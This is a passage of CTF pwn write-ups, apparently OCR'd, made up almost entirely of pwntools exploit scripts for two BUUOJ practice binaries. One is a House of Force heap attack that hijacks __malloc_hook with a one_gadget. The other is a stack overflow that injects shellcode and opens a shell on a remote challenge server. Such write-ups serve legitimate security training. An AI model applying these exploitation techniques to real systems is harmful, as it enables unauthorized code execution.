 ```python

time.sleep(1)
# pid = get_process_pid('./gyctf_2020_force')

io.sendlineafter(b'2:puts\n', b'1')
io.sendlineafter(b'size\n', str(0x200000).encode())
io.recvuntil(b'bin addr 0x')
heap_addr = int(io.recvuntil(b'\n', drop=True).decode(), 16)
print(hex(heap_addr))
io.sendlineafter(b'content\n', b'aaaa')
libc_addr = heap_addr + 0x200FF0
__malloc_hook = libc_addr + libc.symbols['__malloc_hook']
realloc = libc_addr + libc.symbols['realloc']
print("__malloc_hook: " + hex(__malloc_hook))

io.sendlineafter(b'2:puts\n', b'1')
io.sendlineafter(b'size\n', str(0x18).encode())
io.recvuntil(b'bin addr 0x')
heap_addr1 = int(io.recvuntil(b'\n', drop=True).decode(), 16)
print(hex(heap_addr1))
top_chunk_size_addr = heap_addr1 + 0x10
io.sendlineafter(b'content\n', cyclic(0x18) + packing.p64(__malloc_hook - top_chunk_size_addr + 0x100))

io.sendlineafter(b'2:puts\n', b'1')
io.sendlineafter(b'size\n', str(__malloc_hook - top_chunk_size_addr - 0x30).encode())
io.sendlineafter(b'content\n', b'aaaa')

one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

io.sendlineafter(b'2:puts\n', b'1')
io.sendlineafter(b'size\n', str(0x20).encode())
io.sendlineafter(b'content\n', packing.p64(0) + packing.p64(one_gadgets[1] + libc_addr) + packing.p64(realloc + 0x10))

# gdb.attach(pid)
io.sendlineafter(b'2:puts\n', b'1')
io.sendlineafter(b'size\n', str(0x20).encode())

io.interactive()
```

# buu106-wdb_2018_3rd_soEasy

简单栈溢出+shellcode
```python
from pwn import *

elf = ELF('./wdb_2018_3rd_soEasy')
# io = process(['./wdb_2018_3rd_soEasy'])
io = remote('node5.buuoj.cn', 27654)

io.recvuntil(b'Hei,give you a gift->0x')
shell_addr = int(io.recvuntil(b'\n', drop=True).decode(), 16)

payload = asm(shellcraft.sh())
payload = payload.ljust(0x48 + 4)
payload += packing.p32(shell_addr)
io.sendline(payload)

io.interactive()
```
